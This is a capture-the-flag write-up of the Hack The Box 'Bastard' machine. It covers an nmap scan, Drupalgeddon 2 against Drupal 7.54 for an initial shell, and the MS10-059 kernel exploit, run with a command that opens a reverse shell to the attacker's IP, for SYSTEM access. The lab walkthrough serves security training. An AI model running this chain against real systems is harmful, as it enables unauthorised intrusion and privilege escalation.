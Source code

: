```yaml
---
title: "HTB - Bastard without MetaSploit"
date: 2021-03-03
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/03/Bastard_Logo.png"
---
```

## Intro
Let's up the game a little bit and attack a medium rated box for the very first time!

## Target
[HTB - Bastard](URL)

## Recon
A quick look to the box info reveals :

* Windows box ;
* Misc : php, web, patch management.

I assume this will be about an outdated PHP application running under Windows.

## Enum
We run our classic `nmap` scan :

```text
sudo nmap -T4 -A -p- -oA scan $target_ip
```
```text
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-03 12:23 CET
Nmap scan report for bastard.htb (10.129.90.188)
Host is up (0.024s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   23.34 ms 10.10.14.1
2   23.46 ms bastard.htb (10.129.90.188)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.23 seconds
```

We also run our team of usual's suspects tools, such as `nikto` and `gobuster` and manually `browsing` with `Burp` enabled.

We'll notice a `Drupal 7.54` installation which is vulnerable to [Drupalgeddon 2](https://github.com/dreadlocked/Drupalgeddon2) :

![Bastard Drupal Version](/images/2021/03/Bastard_Drupal_Version.png)

## Exploitation

### Getting Initial Shell
Manually exploiting the vuln with the ruby script found during our recon will give us an initial shell as `authority\iusr` :

![Bastard Initial Shell](/images/2021/03/Bastard_Initial_Shell.png)

It is now time for internal recon, before we try to escalate our privs!

### PrivEsc
Since our shell is quite limited, we'll have to find several to get what we want. For example, running winpeas and similar tools won't work. It will time out before we can get the results, and I couldn't find a way to write the output to a logfile.

After searching, I found [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). It is a `python2 script` that works on my attacking machine from the output of the `systeminfo` command :

![Bastard Potential Vulns](/images/2021/03/Bastard_Potential_Vulns.png)

So going down the list I found one kernel exploit that seemed particularly interesting : [MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059).

Once uploaded, just run it without argument and it'll tell you that it requires an IP and port, in order to pop a reverse shell.

So I ran it like so :

```text
MS10-059.exe "$attacking_ip" "1234"
```

Hopefully, it worked and gave me `SYSTEM` :

![Bastard Root Shell](/images/2021/03/Bastard_Root_Shell.png)

Harvest flag and call it a day :

![Bastard Root Flag](/images/2021/03/Bastard_Root_Flag.png)


## Outro
This has been my first even "medium" rated box and I am very happy I did it on my own. I found this initial shell pretty easy, but then got quite confused when I couldn't work with `winpeas` and other executables. This is when I started researching for other way to enum the box and found the `python exploit suggester`. From, here it was some googling and mor trial and error, but it worked!